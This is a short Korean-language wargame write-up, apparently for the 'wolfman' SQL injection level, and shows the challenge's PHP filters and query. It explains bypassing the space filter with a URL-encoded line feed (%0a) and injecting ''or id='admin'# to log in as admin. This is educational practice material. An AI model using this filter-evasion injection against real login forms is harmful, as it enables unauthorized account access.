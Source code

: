 <img width="222" alt="스크린샷 2020-01-16 오후 5 44 51" src="https://user-images.githubusercontent.com/54495632/72508550-317a6000-3889-11ea-8ee0-5e7c33dca96e.png">

5번 wolfman

<img width="650" alt="스크린샷 2020-01-16 오후 5 45 00" src="https://user-images.githubusercontent.com/54495632/72508556-363f1400-3889-11ea-9372-4c3f5275c94a.png">

if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
pw에서 공백이 필터링 되는 문제이다.
공백 우회에는 많은 방법이 있는데 여기서는 Line feed %0a URL을 공백대신 사용했다.

 $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";  
pw를 get으로 받는 쿼리. id엔 이미 guest가 입력되어 있다.
pw를 false로 만들고 or 과 주석을 이용했다.

if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
if($result['id'] == 'admin') solve("wolfman"); 
id 가 admin인 경우 solve가 된다.

 $query = "select id from prob_wolfman where id='guest' and pw=''or id='admin'# -> injection할 쿼리문 예상.

공백 위치에 %0a를 대신 적어 준다.

<img width="741" alt="스크린샷 2020-01-16 오후 5 53 50" src="https://user-images.githubusercontent.com/54495632/72508755-9cc43200-3889-11ea-99ac-669f74fa7b5c.png">